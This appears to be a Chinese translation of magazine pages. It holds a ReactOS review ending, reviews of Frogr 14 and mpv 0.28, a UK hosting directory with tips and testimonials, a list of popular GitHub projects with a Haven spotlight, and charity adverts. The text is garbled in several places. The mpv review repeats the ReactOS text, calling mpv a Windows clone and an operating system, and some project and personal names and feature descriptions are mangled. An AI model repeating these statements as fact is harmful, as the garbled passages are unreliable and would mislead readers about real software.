如果此版本的改进能预示着它是一个极佳的 `Windows` 克隆，那么 `ReactOS` 将成为资源匮乏机器的可行替代。

## 优点

可用性的改进和网络商店也让操作系统更加功能化和实用。

## 缺点

虽然它与良好的硬件配合良好，但该操作系统目前限于其功能集。

## 总结

`ReactOS` 自 1996 年开发以来，要被认为是稳定的操作系统还有很长的路要走。但它已经很久没有调整了，所以这个最新版本——几乎会让你惊喜。

`Mayuresh Sharma`

# 最新免费开源软件

# `FLICKR` 客户端

# `Frogr 14`

向你的 `Flickr` 账户标记并上传内容。

`Flickr` 可能是专业人士和使用傻卡的普通人最常用的图像托管服务。`Frogr` 让你能够在舒适的桌面与在线共享内容。除了可以在 `Flickr` 上上传和删除照片及视频外，该程序还让你能够使用 `Flickr` 的基本功能，包括解密图像、用特定信息和地理位置进行标记，并将其分类到集和组。

对于处理大量文件的用户，`Flickr` 提供了稍后将所有内容共享到 `Frogr` 项目的选项。你可以在 `Frogr` 中加载并取消选择它们，通过选择多个图像或视频为文件添加或编辑信息。虽然 `Frogr` 是一个 `GNOME` 应用，但它也可以通过 `Flatpak` 提供，可以随处安装。



上方 `Frogr` 的偏好允许你为各种选项设置默认设置

# 媒体播放器

# `mpv 0.28`

被誉为最简单的 `MPV` 基于 `mplayer`，而后者是从 `mplayer` 分支出来的。该界面非常易用。你也可以通过命令行更改许多选项。此版本最大的特点是它支持许多视频格式。它还是一个强大的播放器，可以处理高分辨率视频。如果此版本的改进能预示着它是一个极佳的 `Windows` 克隆，那么 `mpV` 将成为资源匮乏机器的可行替代。

## 优点

可用性的改进和网络商店也让操作系统更加功能化和实用。

## 缺点

虽然它与良好的硬件配合良好，但该操作系统目前限于其功能集。

# 在我们的目录中发布您的列表
如在此处广告，请联系 `Chris`
`chris.mitchell@futurenet.com | +44 01225 68 7832 (分机 7832)`

# 推荐

# 托管列表

精选主机商：


> 使用我们直观的控制面板管理您的域名

# 关于我们

作为一家始于 1999年的托管品牌的一部分，我们历史悠久，总部位于英国，独立运营。我们的使命非常简单——确保您的网络呈现“运行无畅”。

我们提供极具性价比的域名、`cPanel` Web 托管、`SSL` 证书、企业邮箱、`WordPress` 托管、云服务和 `VPS`。

# 我们提供的服务

- 带有欺诈、垃圾邮件和病毒保护的免费邮箱帐户
- 免费 `DNS` 管理
- 易于使用的控制面板
- 免费 `SSL`
- 自动将您的电子邮件重定向到现有账户
- 域名保护，防止意外或未经您许可的被转移
- 易于使用的工具，帮助您一步到位完成注册、传输和管理多个域名的其他更改
- 免费域名转发，将您的域名指向另一个域名


# 专业人士的5 个建议

### 01 优化您的图片
在将网站发布到互联网时，请确保所有图片都经过了优化。尝试使用 `jpegpeg.com` 或使用 `EWWW Optimizer` 插件。

### 02 在英国托管您的网站
确保您的网站托管在英国，不仅仅是为了本地用户。如果您的服务器过载，可能会影响您在 `google.co.uk` 上的搜索引擎排名——可以在 `www-check.net` 检查您的网站所在地。

### 03 您做备份吗？
如果您今天丢失了网站，对您的业务会产生什么影响？始终自己制作备份至关重要；即使您的主机商提供备份解决方案，对自己的数据负责并对其进行保护也是重要的。

### 04 尝试在 `Google` 上排名吗？
在 2015 年，如果您在 `Google` 排名遇到困难，请确保您的网站是移动响应式的。此外，还有 `Google HTTPS`。联系您的主机商在您的网站上设置并获取免费的 `HTTPS`。

### 05 避免廉价托管
我们确定您看过那些广告，但廉价的廉价托管！会有多少个客户被挤在一个服务器上？他们会使用廉价的 20 英镑硬盘，而不是 1000 英镑的企业级 `SSD` 吗？记住：付出多少，得到……

# 证言

`David Brown`
“我买了一个 `SSL` 证书。购买过程非常轻松，只需几分钟。我的困难在于安装证书，这是我永远无法做到的。然而，我提交了一个支持工，支持团队的速度极快。我在几小时内就收到了证书颁发机构的回信，他们完美地帮助了我。”

`Tracy House`
“我们使用了 `TheNames` 的多个服务，连接性是顶尖的——一直以来最好的运行时间和服务。技术支持非常有帮助且回复迅速——这是一个加分项。我们非常推荐 `TheNames`。”

`J Edwards`
“在尝试了其他托管公司后，我们似乎拥有了最好的客户服务，以及我需要的所有功能。共享托管速度很快，控制面板非常完善……”

## 至尊托管


`CWCS` 托管托管是英国领先的托管专家。它提供全方位的托管产品、和服务支持。经过良好培训的员工不仅是托管专家，还致力于提供卓越的客户体验，并对他们所做的充满热情。

- 机房托管
- `VPS`
- 100% 网络运行时间

## 价值型托管


`ElasticHofs` 为各种规模的企业提供简单、灵活且具有成本效益的云服务，具有高性能、可靠性和可扩展性。我们的工程师团队通过电话和本地工单系统提供全 24 小时的卓越支持。

- 适用于任何操作系统的云服务器
- `Linux` 容器
- 世界级 24/7 支持

## 小微企业托管


`HostPa` 是屡获殊的网络服务和绿色托管的领导者。它提供功能最全的包之一，以及 24/7 客户支持、学习资源和卓越的可靠性。

- 网站生成器
- 预算价格
- 无限制数据库

## `SSD` 托管


自 2001 年以来，`Bargain Host` 一直致力于在英国提供价格最低的托管。这实现了目标，并建立了一个包含大量满意客户的大型数据库。它还因提供卓越的服务而获得奖励。

- 共享托管
- 云存储
- 域名

## 价值型托管



`Linux` 托管是家庭用户、企业和网页设计师的极具成本效益且强大的解决方案，无论您是建立单页个人作品集还是电子商务网站，都有适合您的 `Linux` 托管解决方案。

- 学生托管
- 站点设计器

## 快速、可靠的托管


`Bytememark` 成立于 2002 年，是英国云托管和独立托管的专家。其主要产品是优质定价、免费软件以及由支持人员和公平价格的高质量硬件提供的运行时间保证。

- 托管服务
- 英国云托管
- `Linux` 托管

## 企业级托管


新用户可预装 `WordPress`，或提供托管式迁移。`WordPress` 服务第一年免费。我们以专业且卓越的服务而闻名，为全英国的主机、开发者和企业提供服务。

## 预算型托管


`Hetzner` 为新用户预装 `WordPress`，或提供托管式迁移。`WordPress` 服务第一年免费。我们以专业且卓越的服务而闻名，为全英国的主机、开发者和企业提供服务。

# 前 10 开源项目

## 矩阵
热门开源项目

全球最火的软件

- 仓库所有者：`x64dbg`
  项目：`x64dbg`
  30,892 星
  59 位贡献者
  一个适用于 `Windows` 的 `x64` 调试器

- 仓库所有者：`Wangsh`
  项目：`wechat_jump_game`
  12,504 星
  46 位贡献者
  一个针对超过 1 亿用户的微信小游戏的作弊插件

- 仓库所有者：`Skylot`
  项目：`sqljad`
  7,327 星
  20 位贡献者
  `Dex` 转 `Java` 反编译器

- 仓库所有者：`Chalarango`
  项目：`30 seconds of code`
  7,791 星
  102 位贡献者
  可在30 秒或更短时间内运行的实用 `JavaScript` 代码段

- 仓库所有者：`parcel-bundler`
  项目：`parcel`
  5,882 星
  58 位贡献者
  快速、零配置的 Web 打包器

- 仓库所有者：`emilwalker`
  项目：`screenshot-in-karas`
  6,827 星
  66 位贡献者
  一个将截图转换为静态网站的神经网络

- 仓库所有者：`transloadit`
  项目：`transloadit`
  5,422 星
  42 位贡献者
  一个用于 Web 浏览器的简洁模块化文件上传器

- 仓库所有者：`bitcoin`
  项目：`bitcoin`
  3,682 星
  503 位贡献者
  比特币 `Core` 集成/阶段阶段

- 仓库所有者：`guardianproject`
  项目：`haven`
  4,048 星
  31 位贡献者
  一个利用手机传感器将其变为传感器哨兵的 `Android` 应用

### 项目亮点
`Haven`
这是一项由 `Edward Snowden` 领导的“新闻自由”组织与 `Quentin Guashier` 合作的成果。`Haven` 利用手机传感器将其变为房间或你访问的任何地方的哨兵。通过点击光照检测器、麦克风和电源等组件，它可以创建并保存图像和声音文件。`Haven` 还被配置为运行 `Tor` 洋葱服务，并允许任何其他设备访问和查看警报。该应用目前处于测试阶段。

下期将于 3 月 8 日发售
构建完美网络 | 从零开始构建 `Qubes OS`

星数
贡献者人数

来源：数据取自 2017 年 12 月 18 日至 2018 年 1 月 18 日的 `GitHub` 搜索 `API`


电子边界基金会（`EFF`）是捍卫数字世界公民权利的领先非营利组织。`EFF` 成立于1990 年，通过影响力诉讼、政策分析、基层活动和技术开发维护用户隐私、言论自由和创新。我们致力于确保随着我们使用技术的增加，权利和自由能够得到增强和保护。

## `EFF.ORG`

## 电子边界基金会
在电子前疆保护权利并促进自由

# 沉浸在世界之中
黑胶片

在乐施会（`OXFAM`）在线商店寻找自我

`oxfam.org.uk/shop`


乐施会

